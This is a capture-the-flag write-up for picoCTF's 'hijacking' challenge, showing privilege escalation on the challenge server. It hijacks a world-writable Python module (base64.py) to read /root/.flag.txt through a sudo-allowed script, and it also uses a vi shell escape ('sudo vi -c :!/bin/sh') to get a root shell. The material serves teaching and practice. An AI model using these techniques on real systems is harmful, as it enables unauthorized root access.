 # hijacking

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 200
Tags: picoCTF 2023, Binary Exploitation, privilege_escalation
Author: THEONESTE BYAGUTANGAZA

Description:
Getting root access can allow you to read the flag. 
Luckily there is a python file that you might like to play with.

Through Social engineering, we've got the credentials to use on the server. 
SSH is running on the server.
saturn.picoctf.net 52735
Username: picoctf
Password: urTi-qvQtA
 
Hints:
1. Check for Hidden files
2. No place like Home:)
```
Challenge link: [https://play.picoctf.org/practice/challenge/352](https://play.picoctf.org/practice/challenge/352)

## Solution

### Connect to the server

We start by connecting to the server
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2023/Binary_Exploitation/hijacking]
└─$ ssh -p 52735 picoctf@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:52735 ([13.59.203.175]:52735)' can't be established.
ED25519 key fingerprint is SHA256:lAxuAwDPxkngr5Aw0vqCbwmNz/+0ii8HjltkWeRcMjw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:52735' (ED25519) to the list of known hosts.
picoctf@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.19.0-1024-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

picoctf@challenge:~$ 
```

And then we look for the python file mentioned in the challenge description
```bash
picoctf@challenge:~$ ls -la
total 16
drwxr-xr-x 1 picoctf picoctf   20 Nov  4 15:38 .
drwxr-xr-x 1 root    root      21 Aug  4 21:10 ..
-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc
drwx------ 2 picoctf picoctf   34 Nov  4 15:38 .cache
-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile
-rw-r--r-- 1 root    root     375 Mar 16  2023 .server.py
```
The python script is owned by root and we are not allowed to modify it.

Let's check what it contains
```python
picoctf@challenge:~$ cat .server.py 
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip) 
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info) 
```

### Check for sudo privileges

Next, let's check what we can run with [sudo](https://en.wikipedia.org/wiki/Sudo)
```bash
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```
As expected we can run the server file with python but we can also run vi.

### Hijack a python module - part 1

We will try to hijack one of the python modules used in the server file, that is `base64`, `os` or `socket`.

First we find the path that python uses
```bash
picoctf@challenge:~$ python3
Python 3.8.10 (default, May 26 2023, 14:05:08) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> print(sys.path)
['', '/usr/lib/python38.zip', '/usr/lib/python3.8', '/usr/lib/python3.8/lib-dynload', '/usr/local/lib/python3.8/dist-packages', '/usr/lib/python3/dist-packages']
>>> exit()
```

Next, we check the file permissions for the module files in the `/usr/lib/python3.8` directory
```bash
picoctf@challenge:/usr/lib/python3.8$ ls -la base64.py os.py socket.py 
-rwxrwxrwx 1 root root 20382 May 26 14:05 base64.py
-rw-r--r-- 1 root root 38995 May 26 14:05 os.py
-rw-r--r-- 1 root root 35243 May 26 14:05 socket.py
```
Ah perfect, we can modify the `base64.py` file.  
But we still don't know the name of the flag file.

### Find out the flag file name

We can use `vi` to read the `/root` directory just like any file
```bash
picoctf@challenge:/usr/lib/python3.8$ sudo vi /root/
[sudo] password for picoctf: 
```

The result is
```
" ============================================================================
" Netrw Directory Listing                                        (netrw v165)
"   /root
"   Sorted by      name
"   Sort sequence: [\/]$,\<core\%(\.\d\+\)\=\>,\.h$,\.c$,\.cpp$,\~\=\*$,*,\.o$,\.obj$,\.info$,\.swp$,\.bak$,\~$
"   Quick Help: <F1>:help  -:go up dir  D:delete  R:rename  s:sort-by  x:special
" ==============================================================================
../                                                                                                                                                                             
./
.vim/
.bashrc
.flag.txt
.profile
```

So now we know that the flag file is `/root/.flag.txt`.

### Hijack a python module - part 2

We add the following line to the `base64.py` file after the [shebang](https://en.wikipedia.org/wiki/Shebang_(Unix))
```python
print(open('/root/.flag.txt', 'r').read())
```

### Get the flag

And finally we run the server with sudo to get the flag
```bash
picoctf@challenge:/usr/lib/python3.8$ sudo python3 ~/.server.py 
picoCTF{<REDACTED>}

sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname
```

## Alternative solution

A more direct approach would be to use [vi to launch a shell](https://gtfobins.github.io/gtfobins/vi/) directly
```bash
picoctf@challenge:~$ sudo vi -c ':!/bin/sh'
[sudo] password for picoctf: 

# cd /root
# ls -la
total 12
drwx------ 1 root root   23 Aug  4 21:12 .
drwxr-xr-x 1 root root   51 Nov  4 16:06 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   43 Aug  4 21:12 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
# cat .flag.txt 
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [Wikipedia - Shebang (Unix)](https://en.wikipedia.org/wiki/Shebang_(Unix))
- [Wikipedia - sudo](https://en.wikipedia.org/wiki/Sudo)
- [GTFObins - vi](https://gtfobins.github.io/gtfobins/vi/)
